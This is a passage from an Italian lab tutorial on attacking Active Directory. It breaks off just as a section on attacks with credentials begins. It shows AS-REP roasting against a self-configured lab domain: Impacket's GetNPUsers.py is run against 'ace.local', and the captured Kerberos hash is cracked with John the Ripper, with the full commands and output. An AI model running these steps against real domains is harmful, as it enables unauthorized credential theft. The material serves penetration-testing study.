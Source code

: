 Abbiamo scoperto che l'utente "atom" esiste!

Nota: Nella maggioranza dei casi, non capiterà in ambienti reali di riuscire a bruteforzare usando solo dei nomi, è invece ben più probabile che il dominio adotti una "Naming Convention" e che quindi gli username possano essere del tipo "mrossi" oppure "m.rossi" o anche "matteo.rossi".

### Con solo degli username - ASREPRoast
Se invece abbiamo già fatto enumeration o anche un po' di OSINT e abbiamo già dei nomi, possiamo provare a sperare che qualche utente abbia l'attributo "UF_DONT_REQUIRE_PREAUTH" settato e che quindi sia possibile chiedere un ticket per conto di quell'utente.

Per settare l'attributo è sufficiente, dal Domain Controller, andare su Server Manager -> Users and Computers -> Users -> utente target -> Properties -> Account -> Do Not Require Pre Authentication. Quindi Apply e Ok per confermare.
![[Pasted image 20230119150323.png]]

Fatto ciò, se riproviamo l'attacco precedente potremo ottenere un ticket per Atom ed incontreremo una nuova challenge, cioè quella di provare ad ottenere la password dell'utente crackando il ticket.

```
GetNPUsers.py ace.local/ -usersfile users -no-pass -dc-ip dc
Impacket v0.10.1.dev1+20220711.165137.65ff31d3 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$atom@ACE.LOCAL:5bb8fa2e85adc28956d77cdc606af213$f71baf76bc2f04f623a7cc96e71449ba5a2b3a1d81063c20c48fdfb1b77e57cc4918077c0df9b521b98bde57876046c8c5193988be2b6559080d881168eb68fa4ac76c1bfa7154f53303d8524bbd474cc8f12f0a879293b4e545ad5554b3ff029c99263a7cabc581480a49ae7d831ba381e14111c859c563cf73a41aa193ab3e104dc84a00e10b8a887b053a26b3286823f042b59a84654a2308e28af89afb52dcad2947873d78d956ac4786d741a7a8a037560c49225dfa5811c2603f0b559f701a5b9131b421e8f552f199c995f2820143f3f4d7c1ae2a666a37803c0a6639a97bdedeac52
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

Scriviamo il ticket cifrato in un file e tentiamo di crackarlo con John:

```
john atom.hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password#        ($krb5asrep$23$atom@ACE.LOCAL)     
1g 0:00:00:04 DONE (2022-07-16 20:26) 0.2277g/s 3267Kp/s 3267Kc/s 3267KC/s !)(OPPQR..Password#
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Ci è andata bene, abbiamo ottenuto la password!

### Con credenziali
